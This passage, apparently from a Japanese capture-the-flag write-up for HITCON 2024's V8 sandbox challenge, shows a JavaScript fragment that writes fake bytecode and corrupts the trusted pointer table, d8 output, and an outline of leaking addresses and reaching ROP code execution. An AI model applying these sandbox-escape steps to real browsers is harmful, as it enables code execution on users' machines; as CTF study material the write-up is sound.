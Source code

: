 ```js
aaw4(ofs_fake_bytecode+0x30, 0xaf);

// modify pointer to fake_bytecode
Sandbox.modifyTrustedPointerTable(0x2003 << 9, 0, Number(addr_fake_bytecode+1n));
```

```
$ ./d8 ./writeup.js --shell
cage_base:  0x287f00000000
V8 version 12.8.163
d8> hax()
NaN
d8>
```

逆に適当にバイトコードを変えると落ちるので、ちゃんと通っているようです。あとは同じ手順でコード実行まで持っていきます。バイトコードはハンドラのテーブルなどを確認して適切に変更します。例えば、リターンのバイトコードは参照したwriteupでは0xaaでしたが、このバージョンでは0xafになっています。

1. インデックスをずらして、v8の下位32ビットをリークし上位ビットと組み合わせてリークする（smiで出てくるので1/2くらいで失敗してそう）
2. 再びインデックスをずらして、rbpを書いてすぐリターンするようにする
3. オブジェクトを引数にして関数を呼んでROP

exploitは[ここ](https://github.com/jt00000/ctf.writeup/blob/master/hitcon2024/v8sbx-re/exploit.js)です。知ってる内容がたまたま当たって良かったです。wasmを使った解法もあるようなのでよく見ておきたいと思います。